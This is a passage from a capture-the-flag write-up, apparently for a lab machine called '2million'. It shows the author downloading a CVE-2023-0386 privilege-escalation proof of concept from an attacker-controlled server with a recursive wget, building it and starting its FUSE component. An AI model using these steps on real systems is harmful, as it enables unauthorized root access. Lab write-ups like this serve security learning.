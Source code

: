 ![python server](./2million/python_server.png)

Further i used wget command to get the folder.
```bash
wget -r http://10.10.14.70:8000/CVE-2023-0386
```

Now after going inside the folder, I followed the command from the Readme file of POC.
- `make all`
  - It throws some errors but three new binaries were generated which weren't there before.
  ![make all command](./2million/make_all.png)

- `./fuse ./ovlcap/lower ./gc`
  - It hangs. So in other window I'll run the exploit.
  ![running command](./2million/hung.png)
